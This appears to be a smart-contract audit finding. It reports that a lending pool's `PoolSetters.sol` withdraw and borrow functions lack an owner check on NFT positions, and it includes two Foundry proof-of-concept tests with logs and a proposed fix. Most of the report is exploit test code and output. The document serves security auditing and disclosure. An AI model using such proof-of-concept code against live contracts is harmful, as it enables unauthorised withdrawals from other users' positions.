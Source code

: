 Rural Eggshell Sheep

High

# user who supplied assets behalf on other position can still withdraw or borrow its assets.

### Summary

The missing  check in `PoolSetters.sol#L62-L119`,  allows user to withdraw  or borrow even after depositing  in behalf  of another user position.  

### Root Cause

 In `PoolSetters.sol##L62-L119` there is a missing  `_isAuthorizedForToken` check in withdraw and borrow function.``

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. alice mints token and deposit 1 ether in that position , tokenid =1.
2. bob also supplies to alice position 1 ether , tokenid =1.
3. bob can withdraw or borrow from alice position but only from what he has supplied .

### Impact

user can borrow or withdraw from other position by depositing but only supplied amt from user

### PoC

``CODED POC``
  <details>
      <summary><i>withdrawing using pool doesnt revert</i></summary>
      
  ```solidity 
   function testPoolWithdraw() external {
    uint256 supplyAmount = 50 ether;
    uint256 mintAmount = 150 ether;
    uint256 tokenId = 1;

    // Start prank for Alice
    vm.startPrank(alice);

    // Mint tokens directly to Alice and approve for NFT operations
    tokenA.mint(alice, mintAmount); // Mint to Alice
    tokenA.approve(address(nftPositionManager), 100 ether); 
    tokenA.approve(address(pool), 50 ether);
 
    console.log('Balance of tokenA in Alice:', tokenA.balanceOf(alice));
    console.log('Initial Pool Balance:', tokenA.balanceOf(address(pool)));

    // Prepare parameters for NFT operations
    DataTypes.ExtraData memory data1 = DataTypes.ExtraData(bytes(''), bytes(''));
    INFTPositionManager.AssetOperationParams memory params1 = INFTPositionManager.AssetOperationParams(
      address(tokenA),
      address(this), 
      1 ether,
      tokenId,
      data1
    );

    // NFT minting and supply operations
    nftPositionManager.mint(address(pool));
    nftPositionManager.supply(params1);

    // Log balance after supply
    console.log('Balance of tokenA in Alice after supply:', tokenA.balanceOf(alice));
    console.log('Pool Balance after Supply from alice :', tokenA.balanceOf(address(pool)));

    vm.stopPrank(); // Stop prank for Alice
    vm.startPrank(owner);
    tokenA.mint(owner, mintAmount);
    tokenA.approve(address(pool), supplyAmount);
    pool.supplySimple(address(tokenA), owner, 1 ether, tokenId);
    console.log('Pool Balance after Supply from owner :', tokenA.balanceOf(address(pool)));
    INFTPositionManager.AssetOperationParams memory params2 = INFTPositionManager.AssetOperationParams(
      address(tokenA),
      address(this), // Use contract address or alice as per requirement
      1 ether,
      tokenId,
      data1
    );
    pool.withdrawSimple(address(tokenA), owner, 1 ether, tokenId);
    console.log('Pool Balance after withdraw from owner:', tokenA.balanceOf(address(pool)));
    vm.stopPrank();
  }
  ```
 ### Logs

  ```js
Ran 1 test for test/forge/core/pool/PoolWithdrawTests.t.sol:PoolWithdrawTests
[PASS] testPoolWithdraw() (gas: 734710)
Logs:
  Balance of tokenA in Alice: 150000000000000000000
  Initial Pool Balance: 0
  Balance of tokenA in Alice after supply: 149000000000000000000
  Pool Balance after Supply from alice : 1000000000000000000
  Pool Balance after Supply from owner : 2000000000000000000
  Pool Balance after withdraw from owner: 1000000000000000000

  ```

  </details>

  <details>
      <summary><i>withdrawing using nftmanager will revert</i></summary>

```solidity

  function testPoolWithdraw() external {
    uint256 supplyAmount = 50 ether;
    uint256 mintAmount = 150 ether;
    uint256 tokenId = 1;

    // Start prank for Alice
    vm.startPrank(alice);

    // Mint tokens directly to Alice and approve for NFT operations
    tokenA.mint(alice, mintAmount); // Mint to Alice
    tokenA.approve(address(nftPositionManager), 100 ether); 
    tokenA.approve(address(pool), 50 ether);
 
    console.log('Balance of tokenA in Alice:', tokenA.balanceOf(alice));
    console.log('Initial Pool Balance:', tokenA.balanceOf(address(pool)));

    // Prepare parameters for NFT operations
    DataTypes.ExtraData memory data1 = DataTypes.ExtraData(bytes(''), bytes(''));
    INFTPositionManager.AssetOperationParams memory params1 = INFTPositionManager.AssetOperationParams(
      address(tokenA),
      address(this), 
      1 ether,
      tokenId,
      data1
    );

    // NFT minting and supply operations
    nftPositionManager.mint(address(pool));
    nftPositionManager.supply(params1);

    // Log balance after supply
    console.log('Balance of tokenA in Alice after supply:', tokenA.balanceOf(alice));
    console.log('Pool Balance after Supply from alice :', tokenA.balanceOf(address(pool)));

    vm.stopPrank(); // Stop prank for Alice
    vm.startPrank(owner);
    tokenA.mint(owner, mintAmount);
    tokenA.approve(address(pool), supplyAmount);
    pool.supplySimple(address(tokenA), owner, 1 ether, tokenId);
    console.log('Pool Balance after Supply from owner :', tokenA.balanceOf(address(pool)));
    INFTPositionManager.AssetOperationParams memory params2 = INFTPositionManager.AssetOperationParams(
      address(tokenA),
      address(this), // Use contract address or alice as per requirement
      1 ether,
      tokenId,
      data1
    );
    nftPositionManager.withdraw(params2);
    // pool.withdrawSimple(address(tokenA), owner, 1 ether, tokenId);
    console.log('Pool Balance after withdraw from owner:', tokenA.balanceOf(address(pool)));
    vm.stopPrank();
  }
```

### Logs

```js

Ran 1 test for test/forge/core/pool/PoolWithdrawTests.t.sol:PoolWithdrawTests
[FAIL. Reason: NotTokenIdOwner()] testPoolWithdraw() (gas: 790242)
Logs:
  Balance of tokenA in Alice: 150000000000000000000
  Initial Pool Balance: 0
  Balance of tokenA in Alice after supply: 149000000000000000000
  Pool Balance after Supply from alice : 1000000000000000000
  Pool Balance after Supply from owner : 2000000000000000000

```
</details>

### Mitigation

add `` _isAuthorizedForToken `` in  withdraw and borrow funtion in ``PoolSetter`` which allows only thae nftowner to withdraw and borrow from the position.
